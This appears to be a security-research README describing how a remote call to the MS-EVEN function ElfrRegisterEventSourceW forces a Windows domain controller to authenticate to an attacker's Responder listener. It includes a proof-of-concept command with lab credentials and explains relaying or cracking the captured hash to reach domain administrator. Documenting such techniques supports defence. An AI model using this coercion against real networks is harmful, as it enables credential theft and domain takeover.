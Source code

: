 # MS-EVEN - Remote call to ElfrRegisterEventSourceW (opnum 8)

## Summary

+ **Protocol**: [[MS-EVEN]: EventLog Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f)

+ **Protocol UUID**: 82273fdc-e32a-18c3-3f78-827929dc23ea

+ **Protocol version**: 0.0

+ **SMB Named pipe**: `\PIPE\eventlog`

+ **Function name**: [`ElfrRegisterEventSourceW`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/9b18521f-98cb-44f9-ab5c-84f03b790b44)

+ **Function operation number**: `8`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\eventlog` and bind to the desired [`MS-EVEN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f) protocol (with uuid `82273fdc-e32a-18c3-3f78-827929dc23ea` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-EVEN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\eventlog` This pipe is connected to the protocol [[MS-EVEN]: EventLog Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f) and allows to call RPC functions of this protocol. We will then call the remote [`ElfrRegisterEventSourceW`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/9b18521f-98cb-44f9-ab5c-84f03b790b44) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
ElfrRegisterEventSourceW('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NTSTATUS ElfrRegisterEventSourceW(
   [in] EVENTLOG_HANDLE_W UNCServerName,
   [in] PRPC_UNICODE_STRING ModuleName,
   [in] PRPC_UNICODE_STRING RegModuleName,
   [in] unsigned long MajorVersion,
   [in] unsigned long MinorVersion,
   [out] IELF_HANDLE* LogHandle
 );
```

## References

+ Documentation of protocol [MS-EVEN]: EventLog Remoting Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f

+ Documentation of function `ElfrRegisterEventSourceW`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/9b18521f-98cb-44f9-ab5c-84f03b790b44